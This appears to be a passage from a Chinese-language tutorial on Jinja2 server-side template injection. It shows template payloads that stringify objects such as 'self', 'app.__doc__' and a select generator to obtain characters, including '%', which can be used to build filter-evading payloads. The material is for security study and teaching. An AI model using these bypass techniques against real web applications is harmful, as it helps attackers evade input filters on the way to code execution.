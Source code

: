 
[https://jinja.palletsprojects.com/en/master/templates/#builtin-filters](https://jinja.palletsprojects.com/en/master/templates/#builtin-filters)

### 常用字符获取入口点

- 对于获取一般字符的方法有以下几种：

```python
{% set org = ({ }|select()|string()) %}{{org}}
{% set org = (self|string()) %}{{org}}
{% set org = self|string|urlencode %}{{org}}
{% set org = (app.__doc__|string) %}{{org}}
```

如下演示：

```python
{% set org = ({ }|select()|string()) %}{{org}}
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364582454-d10435c7-487e-4cbe-8bfc-53bb68e4df29.png#averageHue=%23c5c8ba&id=WFD4O&originHeight=335&originWidth=1273&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
我们可以通过 <generator object select_or_reject at 0x7fe339298fc0> 字符串获取的字符有：尖号、字母、空格、下划线和数字。

```python
{% set org = (self|string()) %}{{org}}
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364582600-cda736a5-c007-4441-8c0e-e1b2e38c717d.png#averageHue=%23bfc0ae&id=qJUWw&originHeight=353&originWidth=1131&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

如上图所示，可以通过  字符串获取的字符有：尖号、字母和空格。

```python
{% set org = self|string|urlencode %}{{org}}
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364582709-496cb9ab-813f-4a97-ae4b-8aae7819394c.png#averageHue=%23bdb791&id=bnoL3&originHeight=377&originWidth=1193&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

如上图所示，可以通过  字符串获取的字符有：尖号、字母和空格。

```python
{% set org = self|string|urlencode %}{{org}}
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364582821-7be632aa-8814-4c50-82d5-bfc11db1c5f9.png#averageHue=%23fcfbfb&id=s0DUC&originHeight=282&originWidth=1242&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)如上图所示，可以获得的字符除了字母以外还有百分号，这一点比较重要，因为如果我们控制了百分号的话我们可以获取任意字符.

```python
{% set org = (app.__doc__|string) %}{{org}}
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364582942-0640c749-1fd4-473a-bfa6-f1c2e5585cdf.png#averageHue=%23dbdcca&id=HPrhm&originHeight=295&originWidth=2452&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```python
{% set org = (app.__doc__|string) %}{{org}}
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364583089-74396b81-19aa-4495-880d-9b73ecde4ef6.png#averageHue=%23f5f4f3&id=UTk4W&originHeight=213&originWidth=2462&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

如上图所示，可获得到的字符更多了。
